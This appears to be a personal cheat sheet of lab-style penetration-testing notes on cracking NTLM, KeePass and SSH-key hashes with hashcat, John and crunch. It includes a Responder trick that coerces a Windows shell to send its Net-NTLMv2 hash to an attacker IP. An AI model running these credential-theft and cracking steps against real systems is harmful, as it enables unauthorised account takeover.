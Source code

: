 # Password cracking

I sometimes forget what to look for in the outputs of cracking tools, or what the exact params should be.
So this is mostly here as a reminder, as it is far from rocket science.

For NTLM hash cracks you will have something like this:
 
```
Password:
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
Administrator:500:aad3b435b51404eeaad3b435b51404ee:${NTLM_HASH}:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:${NTLM_HASH}:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:${NTLM_HASH}:::
thm.red\thm:1114:aad3b435b51404eeaad3b435b51404ee:${NTLM_HASH}:::
```

So we can crack it with either Hashcat or John:

```
hashcat -m 1000 hash.txt /usr/share/wordlists/rockyou.txt


hashcat (v6.2.6) starting

OpenCL API (OpenCL 3.0 PoCL 3.0+debian  Linux, None+Asserts, RELOC, LLVM 14.0.6, SLEEF, DISTRO, POCL_DEBUG) - Platform #1 [The pocl project]
============================================================================================================================================
* Device #1: pthread-13th Gen Intel(R) Core(TM) i5-13600K, 3507/7079 MB (1024 MB allocatable), 14MCU

Minimum password length supported by kernel: 0
Maximum password length supported by kernel: 256

Hashes: 1 digests; 1 unique digests, 1 unique salts
Bitmaps: 16 bits, 65536 entries, 0x0000ffff mask, 262144 bytes, 5/13 rotates
Rules: 1

Optimizers applied:
* Zero-Byte
* Early-Skip
* Not-Salted
* Not-Iterated
* Single-Hash
* Single-Salt
* Raw-Hash

ATTENTION! Pure (unoptimized) backend kernels selected.
Pure kernels can crack longer passwords, but drastically reduce performance.
If you want to switch to optimized kernels, append -O to your commandline.
See the above message to find out about the exact limits.

Watchdog: Temperature abort trigger set to 90c

Host memory required for this attack: 3 MB

Dictionary cache built:
* Filename..: /usr/share/wordlists/rockyou.txt
* Passwords.: 14344392
* Bytes.....: 139921507
* Keyspace..: 14344385
* Runtime...: 1 sec

077cccc23f8ab7031726a3b70c694a49:Passw0rd123              <------------ Output here
                                                          
Session..........: hashcat
Status...........: Cracked
Hash.Mode........: 1000 (NTLM)
Hash.Target......: 077cccc23f8ab7031726a3b70c694a49
Time.Started.....: Sat Mar  4 13:59:18 2023 (3 secs)
Time.Estimated...: Sat Mar  4 13:59:21 2023 (0 secs)
Kernel.Feature...: Pure Kernel
Guess.Base.......: File (/usr/share/wordlists/rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:   774.1 kH/s (0.77ms) @ Accel:512 Loops:1 Thr:1 Vec:4
Recovered........: 1/1 (100.00%) Digests (total), 1/1 (100.00%) Digests (new)
Progress.........: 2107392/14344385 (14.69%)
Rejected.........: 0/2107392 (0.00%)
Restore.Point....: 2100224/14344385 (14.64%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:0-1
Candidate.Engine.: Device Generator
Candidates.#1....: RICAFORT -> Nike13
Hardware.Mon.#1..: Util: 19%

```

or 

```
sudo john -format=nt  hash.txt -w=/usr/share/wordlists/rockyou.txt

Using default input encoding: UTF-8
Loaded 1 password hash (NT [MD4 128/128 SSE2 4x3])
Warning: no OpenMP support for this hash type, consider --fork=14
Press 'q' or Ctrl-C to abort, almost any other key for status
Passw0rd123      (thm.red\bk-admin)    <------------ Output here
1g 0:00:00:00 DONE (2023-03-04 14:00) 10.00g/s 21033Kp/s 21033Kc/s 21033KC/s Password31..Paris13
Use the "--show --format=NT" options to display all of the cracked passwords reliably
```

## Extracting hashes from interesting files 

We can extract hash for the master password from a .kdbx file with:

```
keepass2john Database.kdbx > result.hash
```

The resulting hash has a prefix `Database:` that should be removed.
Afterwards, we can attempt to crack it with `hashcat -m 13400`

similarly, if we gain access to an ssh private-key, we have
```
ssh2john id_rsa
```
Which, again, will prefix with the filename `id_rsa:` which should be removed before giving it to hashcat.


## Get Net-NTLMv2 hash from a shell

pre-req for this is that the running is allowed to RDP so we can access the user once the NTLMv2 hash is cracked.
check this by doing `net user $username` in the shell.
If the user is in Remote Desktop Users, we are good.

On kali, set up responder on the network interface (usually `tun0`):

```
sudo responder -I tun0 -A
```

Now, from the Windows shell, do something like `dir \\${ATTACKER_IP}\thiswillgetdenied`.

Note that if you can get a windows server to access such an SMB path remotely, this trick can also be abused via e.g. fileuploads


## Crunch

We can use the tool `crunch` to quickly generate simple wordlists.
This can eg be done by doing:

```
crunch 10 10 -t test%%%%%% > testworldlist.txt
```
Which will print `test000001` through `test999999`.

## Online Resource

If everything else fails for a hash, it can be worth it trying to see if [this site](https://hashes.com/en/decrypt/hash) can crack the hash.

